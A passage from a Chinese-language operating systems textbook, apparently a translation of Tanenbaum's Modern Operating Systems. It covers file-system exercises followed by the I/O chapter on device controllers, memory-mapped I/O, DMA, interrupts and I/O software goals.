21.如果因为系统崩溃而使存放空闲磁盘块信息的空闲块表或位图完全丢失，会发生什么情况？有什么办法从这个灾难中恢复吗，还是与该磁盘彻底再见？分别就UNIX和FAT-16文件系统讨论你的答案。
22.Oliver Owl在大学计算中心的工作是更换用于通宵数据备份的磁带，在等待每盘磁带完成的同时，他在写一篇毕业论文，证明莎士比亚戏剧是由外星访客写成的。由于仅有一个系统，所以只能在正在做备份的系统上运行文本编辑程序。这样的安排有什么问题吗？
23.在教材中我们详细讨论过增量转储。在Windows中很容易说明何时要转储一个文件，因为每个文件都有一个存档位。在UNIX中没有这个位，那么UNIX备份程序怎样知道哪个文件需要转储？
24.假设图4-25中的文件21自上次转储之后没有修改过，在什么情况下图4-26中的四张位图会不同？
25.有人建议每个UNIX文件的第一部分最好和其i节点放在同一个磁盘块中，这样做有什么好处？
26.考虑图4-27。对某个特殊的块号，计数器的值在两个表中有没有可能都是数值2？这个问题如何纠正？
27.文件系统的性能与高速缓存的命中率有很大的关系（即在高速缓存中找到所需块的概率）。从高速缓存中读取数据需要1ms，而从磁盘上读取需要40ms，若命中率为h，给出读取数据所需平均时间的计算公式。并画出h从0到1.0变化时的函数曲线。
28.考虑图4-21背后的思想，目前磁盘平均寻道时间为8ms，旋转速率为15 000rpm，每道为262 144字节。对大小各为1KB、2KB和4KB的磁盘块，传送速率各是多少？
29.某个文件系统使用2KB的磁盘块，而中间文件大小值为1KB。如果所有的文件都是正好1KB大，那么浪费掉的磁盘空间的比例是多少？你认为一个真正的文件系统所浪费的空间比这个数值大还是小？请说明理由。
30.MS-DOS的FAT-16表有64K个表项，假设其中的一位必须用于其他用途，这样该表就只有32 768个表项了。如果没有其他修改，在这个条件下最大的MS-DOS文件有多大？
31.MS-DOS中的文件必须在内存中的FAT-16表中竞争空间。如果某个文件使用了k个表项，其他任何文件就不能使用这k个表项，这样会对所有文件的总长度带来什么限制？
32.一个UNIX系统使用1KB磁盘块和4字节磁盘地址。如果每个i节点中有10个直接表项以及一个一次间接块、一个二次间接块和一个三次间接块，那么文件的最大尺寸是多少？
33.对于文件/usr/ast/courses/os/handout.t，若要调入其i节点需要多少个磁盘操作？假设其根目录的i节点在内存中，其他路径都不在内存中。并假设所有的目录都在一个磁盘块中。
34.在许多UNIX系统中，i节点存放在磁盘的开始之处。一种替代设计方案是，在文件创建时分配i节点，并把i节点存放在该文件首个磁盘块的开始之处。请讨论这个方案的优缺点。
35.编写一个将文件字节倒写的程序，这样最后一个字节成为第一个字节，而第一个字节成为最后一个字节。程序必须适合任何长度的文件，并保持适当的效率。
36.编写一个程序，该程序从给定的目录开始，从此点开始沿目录树向下，记录所找到的所有文件的大小。在完成这一切之后，该程序应该打印出文件大小分布的直方图，以该直方图的区间宽度为参数（比如，区间宽度为1024，那么大小为0～1023的文件同在一个区间宽度，大小为1024～2047的文件同在下一个区间宽度，如此类推）。
37.编写一个程序，扫描UNIX文件系统中的所有目录，并发现和定位有两个或更多硬连接计数的i节点。对于每个这样的文件，列出指向该文件的所有文件的名称。
38.编写UNIX的新版ls程序。这个版本将一个或多个目录名作为变量，并列出每个目录中所有的文件，一个文件一行。每个域应该对其类型进行合理的格式化。仅列出第一个磁盘地址（若该地址存在的话）。
除了提供抽象(例如，进程（和线程）、地址空间和文件）以外，操作系统还要控制计算机的所有I/O（输入/输出）设备。操作系统必须向设备发送命令，捕捉中断，并处理设备的各种错误。它还应该在设备和系统的其他部分之间提供简单且易于使用的接口。如果有可能，这个接口对于所有设备都应该是相同的，这就是所谓的设备无关性。I/O部分的代码是整个操作系统的重要组成部分。操作系统如何管理I/O是本章的主题。
本章的内容是这样组织的：首先介绍I/O硬件的基本原理，然后介绍一般的I/O软件。I/O软件可以分层构造，每层都有明确的任务。我们将对这些软件层进行研究，看一看它们做些什么，以及如何在一起配合工作。
在此之后将详细介绍几种I/O设备：磁盘、时钟、键盘和显示器。对于每一种设备我们都将从硬件和软件两方面加以介绍。最后，我们还将介绍电源管理。
不同的人对于I/O硬件的理解是不同的。对于电子工程师而言，I/O硬件就是芯片、导线、电源、电机和其他组成硬件的物理部件。对程序员而言，则只注意I/O硬件提供给软件的接口，如硬件能够接收的命令、它能够完成的功能以及它能够报告的错误。本书主要介绍怎样对I/O设备编程，而不是如何设计、制造和维护硬件，因此，我们的讨论限于如何对硬件编程，而不是其内部的工作原理。然而，很多I/O设备的编程常常与其内部操作密切相关。在下面三节中，我们将介绍与I/O硬件编程有关的一般性背景知识。这些内容可以看成是对1.4节介绍性材料的复习和扩充。
I/O设备大致可以分为两类：块设备（block device）和字符设备（character device）。块设备把信息存储在固定大小的块中，每个块有自己的地址。通常块的大小在512字节至32 768字节之间。所有传输以一个或多个完整的（连续的）块为单位。块设备的基本特征是每个块都能独立于其他块而读写。硬盘、CD-ROM和USB盘是最常见的块设备。
如果仔细观察，块可寻址的设备与其他设备之间并没有严格的界限。磁盘是公认的块可寻址的设备，因为无论磁盘臂当前处于什么位置，它总是能够寻址其他柱面并且等待所需要的磁盘块旋转到磁头下面。现在考虑一个用来对磁盘进行备份的磁带机。磁带包含按顺序排列的块。如果给出命令让磁带机读第N块，它可以首先向回倒带，然后再前进直到第N块。该操作与磁盘的寻道相类似，只是花费的时间更长。不过，重写磁带中间位置的块有可能做得到，也有可能做不到。即便有可能把磁带当作随机访问的块设备来使用，也是有些勉为其难的，毕竟通常并不这样使用磁带。
另一类I/O设备是字符设备。字符设备以字符为单位发送或接收一个字符流，而不考虑任何块结构。字符设备是不可寻址的，也没有任何寻道操作。打印机、网络接口、鼠标（用作指点设备）、老鼠（用作心理学实验室实验），以及大多数与磁盘不同的设备都可看作是字符设备。
这种分类方法并不完美，有些设备就没有包括进去。例如，时钟既不是块可寻址的，也不产生或接收字符流。它所做的工作就是按照预先规定好的时间间隔产生中断。内存映射的显示器也不适用于此模型。但是，块设备和字符设备的模型具有足够的一般性，可以用作使处理I/O设备的某些操作系统软件具有设备无关性的基础。例如，文件系统只处理抽象的块设备，而把与设备相关的部分留给较低层的软件。
I/O设备在速度上覆盖了巨大的范围，要使软件在跨越这么多数量级的数据率下保证性能优良，给软件造成了相当大的压力。图5-1列出了某些常见设备的数据率，这些设备中大多数随着时间的推移而变得越来越快。
I/O设备一般由机械部件和电子部件两部分组成。通常可以将这两部分分开处理，以提供更加模块化和更加通用的设计。电子部件称作设备控制器（device controller）或适配器（adapter）。在个人计算机上，它经常以主板上的芯片的形式出现，或者以插入（PCI）扩展槽中的印刷电路板的形式出现。机械部件则是设备本身。这一安排如图1-6所示。
控制器卡上通常有一个连接器，通向设备本身的电缆可以插入到这个连接器中。很多控制器可以操作2个、4个甚至8个相同的设备。如果控制器和设备之间采用的是标准接口，无论是官方的ANSI、IEEE或ISO标准还是事实上的标准，各个公司都可以制造各种适合这个接口的控制器或设备。例如，许多公司都生产符合IDE、SATA、SCSI、USB或火线（IEEE 1394）接口的磁盘驱动器。
控制器与设备之间的接口通常是一个很低层次的接口。例如，磁盘可以按每个磁道10 000个扇区，每个扇区512字节进行格式化。然而，实际从驱动器出来的却是一个串行的位（比特）流，它以一个前导符（preamble）开始，接着是一个扇区中的4096位，最后是一个校验和，也称为错误校正码（Error-Correcting Code，ECC）。前导符是在对磁盘进行格式化时写上去的，它包括柱面数和扇区号、扇区大小以及类似的数据，此外还包含同步信息。
控制器的任务是把串行的位流转换为字节块，并进行必要的错误校正工作。字节块通常首先在控制器内部的一个缓冲区中按位进行组装，然后在对校验和进行校验并证明字节块没有错误后，再将它复制到主存中。
在同样低的层次上，监视器的控制器也是一个位串行设备。它从内存中读入包含待显示字符的字节，并产生用来调制CRT电子束的信号，以便将结果写到屏幕上。该控制器还产生信号使CRT电子束在完成一行扫描后做水平回扫，并且产生信号使CRT电子束在整个屏幕扫描结束后做垂直回扫。如果没有CRT控制器，那么操作系统程序员只能对显像管的模拟扫描直接进行编程。有了控制器，操作系统就可以用几个参数（这些参数包括每行的字符数或像素数、每屏的行数等）对其初始化，并让控制器实际驱动电子束。平板TFT显示器的工作原理与此不同，但是也同样复杂。
每个控制器有几个寄存器用来与CPU进行通信。通过写入这些寄存器，操作系统可以命令设备发送数据、接收数据、开启或关闭，或者执行某些其他操作。通过读取这些寄存器，操作系统可以了解设备的状态，是否准备好接收一个新的命令等。
除了这些控制寄存器以外，许多设备还有一个操作系统可以读写的数据缓冲区。例如，在屏幕上显示像素的常规方法是使用一个视频RAM，这一RAM基本上只是一个数据缓冲区，可供程序或操作系统写入数据。
于是，问题就出现了：CPU如何与设备的控制寄存器和数据缓冲区进行通信？存在两个可选的方法。在第一个方法中，每个控制寄存器被分配一个I/O端口（I/O port）号，这是一个8位或16位的整数。所有I/O端口形成I/O端口空间（I/O port space），并且受到保护使得普通的用户程序不能对其进行访问（只有操作系统可以访问）。使用一条特殊的I/O指令，例如
IN REG,PORT
CPU可以读取控制寄存器PORT的内容并将结果存入到CPU寄存器REG中。类似地，使用
OUT PORT,REG
CPU可以将REG的内容写入到控制寄存器中。大多数早期计算机，包括几乎所有大型主机，如IBM 360及其所有后续机型，都是以这种方式工作的。
在这一方案中，内存地址空间和I/O地址空间是不同的，如图5-2a所示。指令
IN R0,4
和
MOV R0,4
在这一设计中完全不同。前者读取I/O端口4的内容并将其存入R0，而后者则读取内存字4的内容并将其存入R0。因此，这些例子中的4引用的是不同且不相关的地址空间。
第二个方法是PDP-11引入的，它将所有控制寄存器映射到内存空间中，如图5-2b所示。每个控制寄存器被分配惟一的一个内存地址，并且不会有内存被分配这一地址。这样的系统称为内存映射I/O（memory-mapped I/O）。通常分配给控制寄存器的地址位于地址空间的顶端。图5-2c所示是一种混合的方案，这一方案具有内存映射I/O的数据缓冲区，而控制寄存器则具有单独的I/O端口。Pentium处理器使用的就是这一体系结构。在IBM PC兼容机中，除了0到64K-1的I/O端口之外，640K到1M-1的地址保留给设备的数据缓冲区。
这些方案是怎样工作的？在各种情形下，当CPU想要读入一个字的时候，不论是从内存中读入还是从I/O端口中读入，它都要将需要的地址放到总线的地址线上，然后在总线的一条控制线上置起一个READ信号。还要用到第二条信号线来表明需要的是I/O空间还是内存空间。如果是内存空间，内存将响应请求。如果是I/O空间，I/O设备将响应请求。如果只有内存空间（如图5-2b所示的情形），那么每个内存模块和每个I/O设备都会将地址线和它所服务的地址范围进行比较，如果地址落在这一范围之内，它就会响应请求。因为绝对不会有地址既分配给内存又分配给I/O设备，所以不会存在歧义和冲突。
这两种寻址控制器的方案具有不同的优缺点。我们首先来看一看内存映射I/O的优点。第一，如果需要特殊的I/O指令读写设备控制寄存器，那么访问这些寄存器需要使用汇编代码，因为在C或C++中不存在执行IN或OUT指令的方法。调用这样的过程增加了控制I/O的开销。相反，对于内存映射I/O，设备控制寄存器只是内存中的变量，在C语言中可以和任何其他变量一样寻址。因此，对于内存映射I/O，I/O设备驱动程序可以完全用C语言编写。如果不使用内存映射I/O，就要用到某些汇编代码。
第二，对于内存映射I/O，不需要特殊的保护机制来阻止用户进程执行I/O操作。操作系统必须要做的全部事情只是避免把包含控制寄存器的那部分地址空间放入任何用户的虚拟地址空间之中。更为有利的是，如果每个设备在地址空间的不同页面上拥有自己的控制寄存器，操作系统只要简单地通过在其页表中包含期望的页面就可以让用户控制特定的设备而不是其他设备。这样的方案可以使不同的设备驱动程序放置在不同的地址空间中，不但可以减小内核的大小，而且可以防止驱动程序之间相互干扰。
第三，对于内存映射I/O，可以引用内存的每一条指令也可以引用控制寄存器。例如，如果存在一条指令TEST可以测试一个内存字是否为0，那么它也可以用来测试一个控制寄存器是否为0，控制寄存器为0可以作为信号，表明设备空闲并且可以接收一条新的命令。汇编语言代码可能是这样的：
LOOP:TEST PORT_4//检测端口4是否为0
BEQ READY//如果为0，转向READY
BRANCH LOOP//否则，继续测试
READY:
如果不是内存映射I/O，那么必须首先将控制寄存器读入CPU，然后再测试，这样就需要两条指令而不是一条。在上面给出的循环的情形中，就必须加上第四条指令，这样会稍稍降低检测空闲设备的响应度。
在计算机设计中，实际上任何事情都要涉及权衡，此处也不例外。内存映射I/O也有缺点。首先，现今大多数计算机都拥有某种形式的内存字高速缓存。对一个设备控制寄存器进行高速缓存可能是灾难性的。在存在高速缓存的情况下考虑上面给出的汇编代码循环。第一次引用PORT_4将导致它被高速缓存，随后的引用将只从高速缓存中取值并且不会再查询设备。之后当设备最终变为就绪时，软件将没有办法发现这一点。结果，循环将永远进行下去。
对内存映射I/O，为了避免这一情形，硬件必须针对每个页面具备选择性禁用高速缓存的能力。操作系统必须管理选择性高速缓存，所以这一特性为硬件和操作系统两者增添了额外的复杂性。
其次，如果只存在一个地址空间，那么所有的内存模块和所有的I/O设备都必须检查所有的内存引用，以便了解由谁做出响应。如果计算机具有单一总线，如图5-3a所示，那么让每个内存模块和I/O设备查看每个地址是简单易行的。
然而，现代个人计算机的趋势是包含专用的高速内存总线，如图5-3b所示。顺便提一句，在大型机中也可以发现这一特性。装备这一总线是为了优化内存性能，而不是为了慢速的I/O设备而做的折中。Pentium系统甚至可以有多种总线（内存、PCI、SCSI、USB、ISA），如图1-12所示。
在内存映射的机器上具有单独的内存总线的麻烦是I/O设备没有办法查看内存地址，因为内存地址旁路到内存总线上，所以没有办法响应。此外，必须采取特殊的措施使内存映射I/O工作在具有多总线的系统上。一种可能的方法是首先将全部内存引用发送到内存，如果内存响应失败，CPU将尝试其他总线。这一设计是可以工作的，但是需要额外的硬件复杂性。
第二种可能的设计是在内存总线上放置一个探查设备，放过所有潜在地指向所关注的I/O设备的地址。此处的问题是，I/O设备可能无法以内存所能达到的速度处理请求。
第三种可能的设计是在PCI桥芯片中对地址进行过滤，这正是图1-12中Pentium结构上所使用的。该芯片中包含若干个在引导时预装载的范围寄存器。例如，640K到1M-1可能被标记为非内存范围。落在标记为非内存的那些范围之内的地址将被转发给PCI总线而不是内存。这一设计的缺点是需要在引导时判定哪些内存地址不是真正的内存地址。因而，每一设计都有支持它和反对它的论据，所以折中和权衡是不可避免的。
无论一个CPU是否具有内存映射I/O，它都需要寻址设备控制器以便与它们交换数据。CPU可以从I/O控制器每次请求一个字节的数据，但是这样做浪费CPU的时间，所以经常用到一种称为直接存储器存取（Direct Memory Access，DMA）的不同方案。只有硬件具有DMA控制器时操作系统才能使用DMA，而大多数系统都有DMA控制器。有时DMA控制器集成到磁盘控制器和其他控制器之中，但是这样的设计要求每个设备有一个单独的DMA控制器。更加普遍的是，只有一个DMA控制器可利用（例如,在主板上），由它调控到多个设备的数据传送，而这些数据传送经常是同时发生的。
无论DMA控制器在物理上处于什么地方，它都能够独立于CPU而访问系统总线，如图5-4所示。它包含若干个可以被CPU读写的寄存器，其中包括一个内存地址寄存器、一个字节计数寄存器和一个或多个控制寄存器。控制寄存器指定要使用的I/O端口、传送方向（从I/O设备读或写到I/O设备）、传送单位（每次一个字节或每次一个字）以及在一次突发传送中要传送的字节数。
为了解释DMA的工作原理，让我们首先看一下没有使用DMA时磁盘如何读。首先，控制器从磁盘驱动器串行地、一位一位地读一个块（一个或多个扇区），直到将整块信息放入控制器的内部缓冲区中。接着，它计算校验和，以保证没有读错误发生。然后控制器产生一个中断。当操作系统开始运行时，它重复地从控制器的缓冲区中一次一个字节或一个字地读取该块的信息，并将其存入内存中。
使用DMA时，过程是不同的。首先，CPU通过设置DMA控制器的寄存器对它进行编程，所以DMA控制器知道将什么数据传送到什么地方（图5-4中的第1步）。DMA控制器还要向磁盘控制器发出一个命令，通知它从磁盘读数据到其内部的缓冲区中，并且对校验和进行检验。如果磁盘控制器的缓冲区中的数据是有效的，那么DMA就可以开始了。
DMA控制器通过在总线上发出一个读请求到磁盘控制器而发起DMA传送（第2步）。这一读请求看起来与任何其他读请求是一样的，并且磁盘控制器并不知道或者并不关心它是来自CPU还是来自DMA控制器。一般情况下，要写的内存地址在总线的地址线上，所以当磁盘控制器从其内部缓冲区中读取下一个字的时候，它知道将该字写到什么地方。写到内存是另一个标准总线周期（第3步）。当写操作完成时，磁盘控制器在总线上发出一个应答信号到DMA控制器（第4步）。于是，DMA控制器步增要使用的内存地址，并且步减字节计数。如果字节计数仍然大于0，则重复第2步到第4步，直到字节计数到达0。此时，DMA控制器将中断CPU以便让CPU知道传送现在已经完成了。当操作系统开始工作时，用不着将磁盘块复制到内存中，因为它已经在内存中了。
DMA控制器在复杂性方面的区别相当大。最简单的DMA控制器每次处理一路传送，如上面所描述的。复杂一些的DMA控制器经过编程可以一次处理多路传送，这样的控制器内部具有多组寄存器，每一通道一组寄存器。CPU通过用与每路传送相关的参数装载每组寄存器而开始。每路传送必须使用不同的设备控制器。在图5-4中，传送每一个字之后，DMA控制器要决定下一次要为哪一设备提供服务。DMA控制器可能被设置为使用轮转算法，它也可能具有一个优先级规划设计，以便让某些设备受到比其他设备更多的照顾。假如存在一个明确的方法分辨应答信号，那么在同一时间就可以挂起对不同设备控制器的多个请求。出于这样的原因，经常将总线上不同的应答线用于每一个DMA通道。
许多总线能够以两种模式操作：每次一字模式和块模式。某些DMA控制器也能够以这两种模式操作。在前一个模式中，操作如上所述：DMA控制器请求传送一个字并且得到这个字。如果CPU也想使用总线，它必须等待。这一机制称为周期窃取（cycle stealing），因为设备控制器偶尔偷偷溜入并且从CPU偷走一个临时的总线周期，从而轻微地延迟CPU。在块模式中，DMA控制器通知设备获得总线，发起一连串的传送，然后释放总线。这一操作形式称为突发模式（burst mode）。它比周期窃取效率更高，因为获得总线占用了时间，并且以一次总线获得的代价能够传送多个字。突发模式的缺点是，如果正在进行的是长时间突发传送，有可能将CPU和其他设备阻塞相当长的周期。
在我们一直讨论的模型——有时称为飞越模式（fly-by mode）中，DMA控制器通知设备控制器直接将数据传送到主存。某些DMA控制器使用的其他模式是让设备控制器将字发送给DMA控制器，DMA控制器然后发起第2个总线请求将该字写到它应该去的任何地方。采用这种方案，每传送一个字需要一个额外的总线周期，但是更加灵活，因为它可以执行设备到设备的复制甚至是内存到内存的复制（通过首先发起一个到内存的读，然后发起一个到不同内存地址的写）。
大多数DMA控制器使用物理内存地址进行传送。使用物理地址要求操作系统将预期的内存缓冲区的虚拟地址转换为物理地址，并且将该物理地址写入DMA控制器的地址寄存器中。在少数DMA控制器中使用的一个替代方案是将虚拟地址写入DMA控制器，然后DMA控制器必须使用MMU来完成虚拟地址到物理地址的转换。只有在MMU是内存的组成部分（有可能，但罕见）而不是CPU的组成部分的情况下，才可以将虚拟地址放到总线上。
我们在前面提到，在DMA可以开始之前，磁盘首先要将数据读入其内部的缓冲区中。你也许会产生疑问：为什么控制器从磁盘读取字节后不立即将其存储在主存中？换句话说，为什么需要一个内部缓冲区？有两个原因。首先，通过进行内部缓冲，磁盘控制器可以在开始传送之前检验校验和。如果校验和是错误的，那么将发出一个表明错误的信号并且不会进行传送。
第二个原因是，一旦磁盘传送开始工作，从磁盘读出的数据就是以固定速率到达的，而不论控制器是否准备好接收数据。如果控制器要将数据直接写到内存，则它必须为要传送的每个字取得系统总线的控制权。此时，若由于其他设备使用总线而导致总线忙（例如在突发模式中），则控制器只能等待。如果在前一个磁盘字还未被存储之前下一个磁盘字到达，控制器只能将它存放在某个地方。如果总线非常忙，控制器可能需要存储很多字，而且还要完成大量的管理工作。如果块被放入内部缓冲区，则在DMA启动前不需要使用总线，这样，控制器的设计就可以简化，因为对DMA到内存的传送没有严格的时间要求。（事实上，有些老式的控制器是直接存取内存的，其内部缓冲区设计得很小，但是当总线很忙时，一些传送有可能由于超载运行错误而被终止。）
我们在1.4.5节中简要介绍了中断，但是还有更多的内容要介绍。在一台典型的个人计算机系统中，中断结构如图5-5所示。在硬件层面，中断的工作如下所述。当一个I/O设备完成交给它的工作时，它就产生一个中断（假设操作系统已经开放中断），它是通过在分配给它的一条总线信号线上置起信号而产生中断的。该信号被主板上的中断控制器芯片检测到，由中断控制器芯片决定做什么。
如果没有其他中断悬而未决，中断控制器将立刻对中断进行处理。如果有另一个中断正在处理中，或者另一个设备在总线上具有更高优先级的一条中断请求线上同时发出中断请求，该设备将暂时不被理睬。在这种情况下，该设备将继续在总线上置起中断信号，直到得到CPU的服务。
为了处理中断，中断控制器在地址线上放置一个数字表明哪个设备需要关注，并且置起一个中断CPU的信号。
中断信号导致CPU停止当前正在做的工作并且开始做其他的事情。地址线上的数字被用做指向一个称为中断向量（interrupt vector）的表格的索引，以便读取一个新的程序计数器。这一程序计数器指向相应的中断服务过程的开始。一般情况下，陷阱和中断从这一点上看使用相同的机制，并且常常共享相同的中断向量。中断向量的位置可以硬布线到机器中，也可以在内存中的任何地方通过一个CPU寄存器（由操作系统装载）指向其起点。
中断服务过程开始运行后，它立刻通过将一个确定的值写到中断控制器的某个I/O端口来对中断做出应答。这一应答告诉中断控制器可以自由地发出另一个中断。通过让CPU延迟这一应答直到它准备好处理下一个中断，就可以避免与多个几乎同时发生的中断相牵涉的竞争状态。说句题外的话，某些（老式的）计算机没有集中的中断控制器，所以每个设备控制器请求自己的中断。
在开始服务程序之前，硬件总是要保存一定的信息。哪些信息要保存以及将其保存到什么地方，不同的CPU之间存在巨大的差别。作为最低限度，必须保存程序计数器，这样被中断的进程才能够重新开始。在另一个极端，所有可见的寄存器和很多内部寄存器或许也要保存。
将这些信息保存到什么地方是一个问题。一种选择是将其放入内部寄存器中，在需要时操作系统可以读出这些内部寄存器。这一方法的问题是，中断控制器之后无法得到应答，直到所有可能的相关信息被读出，以免第二个中断重写内部寄存器保存状态。这一策略在中断被禁止时将导致长时间的死机，并且可能丢失中断和丢失数据。
因此，大多数CPU在堆栈中保存信息。然而，这种方法也有问题。首先，使用谁的堆栈？如果使用当前堆栈，则它很可能是用户进程的堆栈。堆栈指针甚至可能不是合法的，这样当硬件试图在它所指的地址处写某些字时，将导致致命错误。此外，它可能指向一个页面的末端。若干次内存写之后，页面边界可能被超出并且产生一个页面故障。在硬件中断处理期间如果发生页面故障将引起更大的问题：在何处保存状态以处理页面故障？
如果使用内核堆栈，将存在更多的堆栈指针是合法的并且指向一个固定的页面的机会。然而，切换到核心态可能要求改变MMU上下文，并且可能使高速缓存和TLB的大部分或全部失效。静态地或动态地重新装载所有这些东西将增加处理一个中断的时间，因而浪费CPU的时间。
精确中断和不精确中断
另一个问题是由下面这样的事实引起的：现代CPU大量地采用流水线并且有时还采用超标量（内部并行）。在老式的系统中，每条指令完成执行之后，微程序或硬件将检查是否存在悬而未决的中断。如果存在，那么程序计数器和PSW将被压入堆栈中而中断序列将开始。在中断处理程序运行之后，相反的过程将会发生，旧的PSW和程序计数器将从堆栈中弹出并且先前的进程继续运行。
这一模型使用了隐含的假设，这就是如果一个中断正好在某一指令之后发生，那么这条指令前的所有指令（包括这条指令）都完整地执行过了，而这条指令后的指令一条也没有执行。在老式的机器上，这一假设总是正确的，而在现代计算机上，这一假设则未必是正确的。
首先，考虑图1-6a的流水线模型。在流水线满的时候（通常的情形），如果出现一个中断，那么会发生什么情况？许多指令正处于各种不同的执行阶段，当中断出现时，程序计数器的值可能无法正确地反映已经执行过的指令和尚未执行的指令之间的边界。事实上，许多指令可能部分地执行了，不同的指令完成的程度或多或少。在这种情况下，程序计数器更有可能反映的是将要被取出并压入流水线的下一条指令的地址，而不是刚刚被执行单元处理过的指令的地址。
在如图1-7b所示的超标量计算机上，事情更加糟糕。指令可能分解成微操作，而微操作有可能乱序执行，这取决于内部资源（如功能单元和寄存器）的可用性。当中断发生时，某些很久以前启动的指令可能还没开始执行，而其他最近启动的指令可能几乎要完成了。当中断信号出现时，可能存在许多指令处于不同的完成状态，它们与程序计数器之间没有什么关系。
将机器留在一个明确状态的中断称为精确中断（precise interrupt）（Walker和Cragon，1995）。精确中断具有4个特性：
1)PC（程序计数器）保存在一个已知的地方。
2)PC所指向的指令之前的所有指令已经完全执行。
3)PC所指向的指令之后的所有指令都没有执行。
4)PC所指向的指令的执行状态是已知的。
注意，对于PC所指向的指令之后的那些指令来说，此处并没有禁止它们开始执行，而只是要求在中断发生之前必须撤销它们对寄存器或内存所做的任何修改。PC所指向的指令有可能已经执行了，也有可能还没有执行，然而，必须清楚适用的是哪种情况。通常，如果中断是一个I/O中断，那么指令就会还没有开始执行。然而，如果中断实际上是一个陷阱或者页面故障，那么PC一般指向导致错误的指令，所以它以后可以重新开始执行。图5-6a所示的情形描述了精确中断。程序计数器（316）之前的所有指令都已经完成了，而它之后的指令都还没有启动（或者已经回退以撤销它们的作用）。
不满足这些要求的中断称为不精确中断（imprecise interrupt），不精确中断使操作系统编写者过得极为不愉快，现在操作系统编写者必须断定已经发生了什么以及还要发生什么。图5-6b描述了不精确中断，其中邻近程序计数器的不同指令处于不同的完成状态，老的指令不一定比新的指令完成得更多。具有不精确中断的机器通常将大量的内部状态“吐出”到堆栈中，从而使操作系统有可能判断出正在发生什么事情。重新启动机器所必需的代码通常极其复杂。此外，在每次中断发生时将大量的信息保存在内存中使得中断响应十分缓慢，而恢复则更加糟糕。这就导致具有讽刺意味的情形：由于缓慢的中断使得非常快速的超标量CPU有时并不适合实时工作。
有些计算机设计成某些种类的中断和陷阱是精确的，而其他的不是。例如，可以让I/O中断是精确的，而归因于致命编程错误的陷阱是不精确的，由于在被0除之后不需要尝试重新开始运行的进程，所以这样做也不错。有些计算机具有一个位，可以设置它强迫所有的中断都是精确的。设置这一位的不利之处是，它强迫CPU仔细地将正在做的一切事情记入日志并且维护寄存器的影子副本，这样才能够在任意时刻生成精确中断。所有这些开销都对性能具有较大的影响。
某些超标量计算机（例如Pentium系列）具有精确中断，从而使老的软件正确工作。为精确中断付出的代价是CPU内部极其复杂的中断逻辑，以便确保当中断控制器发出信号想要导致一个中断时，允许直到某一点之前的所有指令完成而不允许这一点之后的指令对机器状态产生任何重要的影响。此处付出的代价不是在时间上，而是在芯片面积和设计复杂性上。如果不是因为向后兼容的目的而要求精确中断的话，这一芯片面积就可以用于更大的片上高速缓存，从而使CPU的速度更快。另一方面，不精确中断使得操作系统更为复杂而且运行得更加缓慢，所以断定哪一种方法更好是十分困难的。
在讨论了I/O硬件之后，下面我们来看一看I/O软件。首先我们将看一看I/O软件的目标，然后从操作系统的观点来看一看I/O实现的不同方法。
在设计I/O软件时一个关键的概念是设备独立性（device independence）。它的意思是应该能够编写出这样的程序：它可以访问任意I/O设备而无需事先指定设备。例如，读取一个文件作为输入的程序应该能够在硬盘、CD-ROM、DVD或者USB盘上读取文件，无需为每一种不同的设备修改程序。类似地，用户应该能够键入这样一条命令
sort＜input＞output
并且无论输入来自任意类型的存储盘或者键盘，输出送往任意类型的存储盘或者屏幕，上述命令都可以工作。尽管这些设备实际上差别很大，需要非常不同的命令序列来读或写，但这一事实所带来的问题将由操作系统负责处理。
与设备独立性密切相关的是统一命名（uniform naming）这一目标。一个文件或一个设备的名字应该是一个简单的字符串或一个整数，它不应依赖于设备。在UNIX系统中，所有存储盘都能以任意方式集成到文件系统层次结构中，因此，用户不必知道哪个名字对应于哪台设备。例如，一个USB盘可以安装（mount）到目录/usr/ast/backup下，这样复制一个文件到/usr/ast/backup/monday就是将文件复制到USB盘上。用这种方法，所有文件和设备都采用相同的方式——路径名进行寻址。
I/O软件的另一个重要问题是错误处理（error handling）。一般来说，错误应该尽可能地在接近硬件的层面得到处理。当控制器发现了一个读错误时，如果它能够处理那么就应该自己设法纠正这一错误。如果控制器处理不了，那么设备驱动程序应当予以处理，可能只需重读一次这块数据就正确了。很多错误是偶然性的，例如，磁盘读写头上的灰尘导致读写错误时，重复该操作，错误经常就会消失。只有在低层软件处理不了的情况下，才将错误上交高层处理。在许多情况下，错误恢复可以在低层透明地得到解决，而高层软件甚至不知道存在这一错误。
另一个关键问题是同步（synchronous）（即阻塞）和异步（asynchronous）（即中断驱动）传输。大多数物理I/O是异步的——CPU启动传输后便转去做其他工作，直到中断发生。如果I/O操作是阻塞的，那么用户程序就更加容易编写——在read系统调用之后，程序将自动被挂起，直到缓冲区中的数据准备好。正是操作系统使实际上是中断驱动的操作变为在用户程序看来是阻塞式的操作。
I/O软件的另一个问题是缓冲（buffering）。数据离开一个设备之后通常并不能直接存放到其最终的目的地。例如，从网络上进来一个数据包时，直到将该数据包存放在某个地方并对其进行检查，操作系统才知道要将其置于何处。此外，某些设备具有严格的实时约束（例如，数字音频设备），所以数据必须预先放置到输出缓冲区之中，从而消除缓冲区填满速率和缓冲区清空速率之间的相互影响，以避免缓冲区欠载。缓冲涉及大量的复制工作，并且经常对I/O性能有重大影响。
此处我们将提到的最后一个概念是共享设备和独占设备的问题。有些I/O设备（如磁盘）能够同时让多个用户使用。多个用户同时在同一磁盘上打开文件不会引起什么问题。其他设备（如磁带机）则必须由单个用户独占使用，直到该用户使用完，另一个用户才能拥有该磁带机。让两个或更多的用户随机地将交叉混杂的数据块写入相同的磁带是注定不能工作的。独占（非共享）设备的引入也带来了各种各样的问题，如死锁。同样，操作系统必须能够处理共享设备和独占设备以避免问题发生。
I/O可以以三种根本不同的方式实现。在本小节中我们将介绍第一种（程序控制I/O），在后面两小节中我们将研究另外两种（中断驱动I/O和使用DMA的I/O）。I/O的最简单形式是让CPU做全部工作，这一方法称为程序控制I/O（programmed I/O）。
借助于例子来说明程序控制I/O是最简单的。考虑一个用户进程，该进程想在打印机上打印8个字符的字符串“ABCDEFGH”。它首先要在用户空间的一个缓冲区中组装字符串，如图5-7a所示。
然后，用户进程通过发出系统调用打开打印机来获得打印机以便进行写操作。如果打印机当前被另一个进程占用，该系统调用将失败并返回一个错误代码，或者将阻塞直到打印机可用，具体情况取决于操作系统和调用参数。一旦拥有打印机，用户进程就发出一个系统调用通知操作系统在打印机上打印字符串。
